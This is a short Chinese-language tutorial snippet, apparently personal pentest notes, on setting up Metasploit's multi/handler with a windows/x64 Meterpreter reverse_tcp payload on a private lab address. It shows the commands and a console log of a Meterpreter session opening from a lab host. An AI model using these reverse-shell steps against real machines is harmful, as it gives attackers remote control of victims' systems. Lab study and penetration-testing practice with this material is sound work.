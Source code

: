 ### multi/handler进行监控

> 启动插件

```sh
# 进入msf
msfconsole

#启动插件
use exploit/multi/handler
```

> 设置pyload

```sh
set payload windows/x64/meterpreter/reverse_tcp

set lhost 192.168.126.128
```

> 成功示例

```sh
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.126.128
lhost => 192.168.126.128
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.126.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.126.128:4444 
[*] Sending stage (201798 bytes) to 192.168.126.132
[*] Meterpreter session 1 opened (192.168.126.128:4444 -> 192.168.126.132:50199) at 2024-05-09 01:43:30 -0400

meterpreter > 
```
